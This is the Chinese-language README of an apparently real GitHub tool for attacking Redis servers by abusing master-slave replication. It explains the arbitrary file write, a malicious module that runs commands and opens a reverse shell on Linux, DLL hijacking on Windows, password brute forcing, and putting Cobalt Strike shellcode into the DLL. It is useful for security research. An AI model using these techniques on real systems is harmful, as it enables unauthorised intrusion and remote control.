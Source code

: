 # RabR 

Redis-Attack By Replication (通过主从复制攻击Redis)   

- 攻击Linux下的Redis，可执行命令和反弹shell
- 攻击Window x64下的Redis，可...执行calc  
本工具基于**Ridter**师傅的[**redis-rce**](https://github.com/Ridter/redis-rce) 进行修改。  

## 声明
本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。

## 原理
Redis从2.8开始，就支持主从复制功能。     

这个功能存在脆弱的地方：主从复制中，Redis从机会将Redis主机的数据库文件同步到本地的数据库文件，并检验其是否为RDP格式，但如果不是RDP格式也不会删除。   
所以我们只要将主从复制传输中的数据库文件，替换为我们自己的数据，就可以将我们自己的数据原封不动的写入到redis从机的数据库文件中，而这个数据库文件的名字也可以通过Redis从机进行修改。  
**这就意味着我们可以将任意文件写入到目标Redis权限下的任意路径**。    

## 特点
- 本工具利用这个Redis的脆弱性，对Linux下的redis进行module攻击，对Windows下的Redis进行dll劫持攻击。  
- 本工具默认使用的恶意模块：exp.so，源码来自于：[**RedisModules-ExecuteCommand** ](https://github.com/puckiestyle/RedisModules-ExecuteCommand ), 该模块实现了执行单条命令和反弹shell的功能，你也可以编写自己的模块。  
- 本工具默认使用的恶意dll：dbghelp.dll，是通过 [**DLLHijacker** ](https://github.com/kiwings/DLLHijacker )+ **win7x64下的dbghelp.dll** 编译生成的，该dll会执行calc，你可以编译自己的dbghelp.dll。
- 本工具有爆破功能，密码字典位于pwd.txt中。  
- 本工具在攻击前会备份目标Redis的数据，在攻击结束后会进行恢复，使用的工具为[**redis-dump-go**](https://github.com/yannh/redis-dump-go )。默认是开启的，可以关闭。  

## 结构
```  
│  dbghelp.dll 默认用于劫持Redis的dll
│  exp.so 默认导入的Redis模块
│  pwd.txt 爆破字典
│  rd.exe 用于保存Redis数据的程序
│  README.md
│  redis-attack.py 攻击主程序
```

## 用法
```
usage: python redis-attack.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-wf WINFILE] [-lf LINUXFILE] [-a AUTH] [--brute] [-v]
Example: python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 --brute

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 16379
  -wf WINFILE, --winfile WINFILE
                        Dll Used to hijack redis, default dbghelp.dll
  -lf LINUXFILE, --linuxfile LINUXFILE
                        RedisModules to load, default exp.so
  -a AUTH, --auth AUTH  redis password
  --brute               If redis needs to verify the password, perform a brute force attack base in pwd.txt
  -i, --idontcare       don't care about the data on the target redis
  -v, --verbose         show more info
```

![image-20210703203005715](phpto/RabR/image-20210703203005715.png)

![image-20210703202827200](phpto/RabR/image-20210703202827200.png)

## 进一步

攻击Windows x64下的redis：  
1）[DLLHijacker](https://github.com/kiwings/DLLHijacker) +目标redis的系统版本的dbghelp.dll， 生成vs项目。  
2）vs项目修改：   

```
1、将dllmain.cpp中 shellcode_calc[] 的值替换为cs生成的shellcode 
2、为了避免只能劫持1次dll，在dllmain.cpp的 Hijack();后增加 FreeLibrary(hModule);
3、修改活动解决方案为Realease，x64
4、修改项目属性的sdk版本、平台工具集为本地vs可用的值
```
3）编译生成dll，复制到本工具目录下。    
4）使用本工具执行攻击 。  


## 感谢
本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！！非常感谢某群大佬分享的关键词(很重要)！！非常感谢！！  
帮助到我的文章与工具包括但不限于：  
 [Redis on Windows 出网利用探索](https://xz.aliyun.com/t/8153)  
 [Redis On Windows -- Dll Hijack](https://jkme.github.io/redis-on-windows-dll-hijack.html)  
 [DLLHijacker](https://github.com/kiwings/DLLHijacker)  
 [redis-rce](https://github.com/Ridter/redis-rce)  
 [RedisWriteFile](https://github.com/r35tart/RedisWriteFile)  
 [redis-dump-go](https://github.com/yannh/redis-dump-go)  

## 反馈  
Mail：h.vi@qq.com   
或者[issue](https://github.com/0671/RabR/issues/new)、PR  
